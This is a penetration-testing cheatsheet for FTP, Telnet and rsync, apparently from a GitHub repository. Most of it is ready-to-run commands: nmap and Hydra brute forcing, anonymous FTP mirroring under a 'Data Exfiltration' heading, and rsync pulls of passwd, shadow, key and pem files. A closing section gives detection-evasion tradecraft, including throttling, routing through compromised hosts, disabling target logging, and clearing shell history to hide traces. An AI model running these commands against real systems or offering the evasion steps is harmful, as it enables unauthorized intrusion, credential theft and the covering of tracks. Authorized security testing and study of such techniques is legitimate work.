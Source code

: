 # Cleartext Protocols Cheatsheet

## FTP

### Service Discovery & Banner Grabbing
* Basic FTP connection: `ftp <target_ip>`
* Netcat banner grab: `echo "QUIT" \| nc <target_ip> 21`
* Nmap service detection: `nmap -sV -p 21 <target_ip>`
* Nmap with FTP-specific scripts: `nmap --script ftp-anon,ftp-bounce,ftp-brute,ftp-proftpd-backdoor,ftp-vsftpd-backdoor -p 21 <target_ip>`

### Anonymous Access
* Username: `anonymous`
* Password (if needed): `anonymous@example.com` (or any other existing or non-existing email address)

### FTP Bounce Scanning
* Use FTP server as proxy for port scanning: `nmap -b anonymous:anonymous@<ftp_server> <internal_target>`

### Data Exfiltration
* Bulk recursive download: `wget -r ftp://anonymous:anonymous@<target_ip>`
* Advanced FTP client: `lftp ftp://anonymous:anonymous@<target_ip>` → `mirror <remote_path> <local_path>`

## Telnet

### Service Discovery
* Basic Telnet connection: `telnet <target_ip> 23`
* Nmap service detection: `nmap -sV -p 23 <target_ip>`
* Nmap with Telnet-specific scripts: `nmap --script telnet-brute,telnet-encryption,telnet-ntlm-info -p 23 <target_ip>`

### Port Scanning
* Scan common Telnet ports: `nmap -p 23,2223,2322,2323,8023,9999,10001 <target_ip>`
* Service detection on multiple ports: `nmap -sV -p 23,2223,2322,2323,8023,9999,10001 <target_ip>`

### Hydra
* Hydra brute force: `hydra -L usernames.txt -P passwords.txt telnet://<target_ip> -vV -t4 -I`

### Initial Reconnaissance Commands

### Session Enumeration

| Command | Description |
|---------|-------------|
| `who` | Currently logged-in users |
| `w` | System users and their processes |
| `last` | Recent login/logout history |
| `users` | List of current usernames |
| `tty` | Current terminal name |
| `ps -t $(tty)` | Processes running on current terminal |

### Session Cleanup

| Command | Description |
|---------|-------------|
| `history -c` | Clear command history |
| `unset HISTFILE` | Disable history logging |
| `rm ~/.bash_history 2>/dev/null` | Remove history file |
| `unalias ls 2>/dev/null` | Remove command aliases |

## rsync

### Service Discovery
* Basic rsync service test and module listing: `rsync <target_ip>::`
* Explicit module listing: `rsync --list-only <target_ip>`
* Scan common rsync ports: `nmap -p 873,8873,9873 <target_ip>`
* Service detection: `nmap -sV -p 873 <target_ip>`

### Module Enumeration
* Detailed module information: `rsync -av --list-only <target_ip>::<module_name>`
* Test common modules
  ```bash
  for module in backup home www data etc opt var; do
    echo "Testing module: $module"
    rsync --list-only <target_ip>::$module 2>/dev/null
  done
  ```

### File Type Hunting
* Search for specific valuable file types: `rsync -avz --list-only <target_ip>::<module>/ \| grep -E '\.(conf\|cfg\|ini\|bak\|sql\|log)$'`

### Data Extraction
* Complete module mirror: `rsync -avz <target_ip>::<module>/ ./rsync_dump/`
* Selective file extraction: `rsync -avz --include="*.conf" --include="*.cfg" --exclude="*" <target_ip>::<module>/ ./configs/`
* Bandwidth-limited extraction: `rsync -avz --bwlimit=100 <target_ip>::<module>/ ./slow_dump/`

### High-Value File Extraction
```bash
rsync -avz --include="*passwd*" --include="*shadow*" --include="*config*" \
--include="*.conf" --include="*.cfg" --include="*.ini" \
--include="*.bak" --include="*.sql" --include="*.key" \
--include="*.pem" --exclude="*" <target_ip>::<module>/ ./intel/
```

### Write Access Testing
1. Create test file: `echo "rsync_test_$(date)" > test_file.txt`
2. Attempt upload: `rsync -avz test_file.txt <target_ip>::<module>`
3. Verify upload: `rsync --list-only <target_ip>::<module>/ \| grep test_file.txt`

## Detection Evasion & Operational Security

### Traffic Obfuscation

#### Timing & Bandwidth Controls
* Bandwidth limiting: `rsync -avz --bwlimit=50 --delay-updates <target>::<module>/ ./stealth_dump`
* Randomized connection intervals
  ```bash
  for i in {1..10}; do
    sleep $((RANDOM % 300 + 60))  # Random delay 1-6 minutes
    ftp -n <target> <<EOF
  user anonymous anonymous@$(date +%s)@fake.com
  ls
  quit
  EOF
  done
  ```
#### Connection Source obfuscation
* Use VPN endpoints to vary source IP addresses
* Proxy through compromised systems (if legally authorized)
* Distribute reconnaissance across multiple source addresses
* Time reconnaissance during high-traffic periods

### Log Evasion

#### FTP Log Evasion
* Use realistic email addresses for anonymous FTP (instead of anonymous@test.com use john.smith@companyname.com)
* Vary user agent strings if protocol supports them
* Mimic legitimate backup software or file transfer tools

#### General Log Evasion
```
+------------+---------------------------------------+------------------------------------------------+
| Protocol   | Common log entries                    | Minimization techniques                        |
+------------+---------------------------------------+------------------------------------------------+
| FTP        | - "USER <username>"                   | - Use FTPS (FTP over SSL/TLS)                  |
|            | - "PASS <password>"                   | - Use passive mode to avoid direct connections |
|            | - "230 Login successful"              | - Obfuscate credentials (e.g., encoded)        |
|            | - "550 Permission denied"             | - Limit connection frequency (throttle)        |
|            | - "STOR <filename> (file upload)"     | - Use non-standard ports                       |
+------------+---------------------------------------+------------------------------------------------+
| Telnet     | - "login: <username>"                 | - Replace with SSH (disables plaintext logs)   |
|            | - "password: <password>"              | - Use VPN tunneling to hide traffic            |
|            | - "Last login: <timestamp>"           | - Disable logging on target if possible        |
|            | - "Connection closed by foreign host" | - Use IP spoofing (risky)                      |
+------------+---------------------------------------+------------------------------------------------+
| rsync      | - "sent <X> bytes received <Y> bytes" | - Use SSH mode (`rsync -e ssh`)                |
|            | - "delta-transmission disabled"       | - Throttle speed (`--bwlimit`)                 |
|            | - "password file must not be other-"  | - Avoid `--password-file` (use SSH keys)       |
|            |   "readable" (auth failure)           | - Run over Tor/VPN                             |
|            | - "<file> sent/to-send"               | - Modify default port (`--port`)               |
+------------+---------------------------------------+------------------------------------------------+
```

#### Telnet Session Hygiene
* Clear command history before disconnect:
  ```bash
  history -c
  unset HISTFILE
  rm ~/.bash_history 2>/dev/null
  ```
* Avoid leaving obvious traces:
  ```bash
  unalias ls 2>/dev/null
  cd /
  ```

Reach out: https://linktr.ee/january1073
